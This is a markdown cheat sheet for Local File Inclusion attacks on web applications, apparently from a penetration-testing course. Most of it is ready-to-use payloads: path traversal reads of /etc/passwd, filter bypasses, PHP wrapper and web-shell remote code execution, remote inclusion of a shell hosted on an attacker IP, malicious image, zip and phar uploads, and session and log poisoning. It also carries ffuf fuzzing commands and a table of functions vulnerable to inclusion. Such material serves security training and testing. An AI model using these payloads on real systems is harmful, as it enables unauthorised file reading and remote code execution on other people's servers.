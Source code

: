 # Local File Inclusion

| **Command**                                                                                        | **Description**                                           |
| -------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
|  **Basic LFI**                                                                                     |                                                           |
|  `/index.php?language=/etc/passwd`                                                                 | Basic LFI                                                 |
|  `/index.php?language=../../../../etc/passwd`                                                      | LFI with path traversal                                   |
|  `/index.php?language=/../../../etc/passwd`                                                        | LFI with name prefix                                      |
|  `/index.php?language=./languages/../../../../etc/passwd`                                          | LFI with approved path                                    |
|  **LFI Bypasses**                                                                                  |                                                           |
|  `/index.php?language=....//....//....//....//etc/passwd`                                          | Bypass basic path traversal filter                        |
|  `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`          | Bypass filters with URL encoding                          |
|  `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
|  `/index.php?language=../../../../etc/passwd%00`                                                   | Bypass appended extension with null byte (obsolete)       |
|  `/index.php?language=php://filter/read=convert.base64-encode/resource=config`                     | Read PHP with base64 filter                               |

### Remote Code Execution

| **Command**                                                                                                                  | **Description**                       |
| ---------------------------------------------------------------------------------------------------------------------------- | ------------------------------------- |
|  **PHP Wrappers**                                                                                                            |                                       |
|  `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`                    | RCE with data wrapper                 |
|  `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper                |
|  `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                        | RCE with expect wrapper               |
|  **RFI**                                                                                                                     |                                       |
|  `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>`                              | Host web shell                        |
|  `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`                                                     | Include remote PHP web shell          |
|  **LFI + Upload**                                                                                                            |                                       |
|  `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`                                                                     | Create malicious image                |
|  `/index.php?language=./profile_images/shell.gif&cmd=id`                                                                     | RCE with malicious uploaded image     |
|  `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`                                              | Create malicious zip archive 'as jpg' |
|  `/index.php?language=zip://shell.zip%23shell.php&cmd=id`                                                                    | RCE with malicious uploaded zip       |
|  `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`                                                         | Create malicious phar 'as jpg'        |
|  `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`                                                  | RCE with malicious uploaded phar      |
|  **Log Poisoning**                                                                                                           |                                       |
|  `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`                                                 | Read PHP session parameters           |
|  `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`                                               | Poison PHP session with web shell     |
|  `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`                                          | RCE through poisoned PHP session      |
|  `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`                                         | Poison server log                     |
|  `/index.php?language=/var/log/apache2/access.log&cmd=id`                                                                    | RCE through poisoned PHP session      |

### Misc

| **Command**                                                                                                                                                                           | **Description**            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------- |
|  `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`                                      | Fuzz page parameters       |
|  `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`                                                      | Fuzz LFI payloads          |
|  `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path          |
|  `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`                                                                      | Fuzz server configurations |
|  [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)                                                                                                  |                            |
| [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)                                                                                 |                            |
| [Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)                                  |                            |
| [Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)                              |                            |
| [Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)                                                     |                            |
| [Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)                                                 |                            |

### File Inclusion Functions

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |         ✅        |      ✅      |        ✅       |
| `require()`/`require_once()` |         ✅        |      ✅      |        ❌       |
| `file_get_contents()`        |         ✅        |      ❌      |        ✅       |
| `fopen()`/`file()`           |         ✅        |      ❌      |        ❌       |
| **NodeJS**                   |                  |             |                |
| `fs.readFile()`              |         ✅        |      ❌      |        ❌       |
| `fs.sendFile()`              |         ✅        |      ❌      |        ❌       |
| `res.render()`               |         ✅        |      ✅      |        ❌       |
| **Java**                     |                  |             |                |
| `include`                    |         ✅        |      ❌      |        ❌       |
| `import`                     |         ✅        |      ✅      |        ✅       |
| **.NET**                     |                  |             |                |
| `@Html.Partial()`            |         ✅        |      ❌      |        ❌       |
| `@Html.RemotePartial()`      |         ✅        |      ❌      |        ✅       |
| `Response.WriteFile()`       |         ✅        |      ❌      |        ❌       |
| `include`                    |         ✅        |      ✅      |        ✅       |
